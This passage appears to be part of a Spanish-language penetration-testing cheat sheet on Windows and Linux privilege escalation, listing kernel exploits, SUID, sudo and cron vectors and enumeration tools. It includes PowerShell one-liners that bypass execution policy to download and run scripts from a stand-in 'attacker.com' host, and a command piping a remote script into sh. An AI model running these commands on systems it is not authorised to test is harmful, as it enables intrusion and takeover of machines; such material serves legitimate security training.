 **Herramientas de Windows PrivEsc:**
```bash
# PowerUp enumeration
powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/PowerUp.ps1'); Invoke-AllChecks"

# WinPEAS enumeration
winpeas.exe

# Sherlock exploit suggester
powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Sherlock.ps1'); Find-AllVulns"
```

#### Linux Privilege Escalation
**Vectores de Escalada:**
```
Linux Privilege Escalation:
├── Kernel Exploits
│   ├── Dirty COW (CVE-2016-5195)
│   ├── Overlayfs (CVE-2015-1328)
│   └── PwnKit (CVE-2021-4034)
├── SUID/SGID Files
│   ├── Custom SUID binaries
│   ├── Known vulnerable SUID
│   └── SUID binary hijacking
├── Sudo Misconfigurations
│   ├── Sudo -l enumeration
│   ├── Wildcard abuse
│   └── LD_PRELOAD exploitation
├── Cron Jobs
│   ├── Weak file permissions
│   ├── PATH manipulation
│   └── Wildcard injection
└── Service Exploits
    ├── Writable service files
    └── Environment variables
```

**Herramientas de Linux PrivEsc:**
```bash
# LinPEAS enumeration
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Linux Exploit Suggester
linux-exploit-suggester.sh

# Enumerate SUID files
find / -perm -4000 -type f 2>/dev/null

# Check sudo permissions
sudo -l

# Enumerate cron jobs
cat /etc/crontab
crontab -l
```
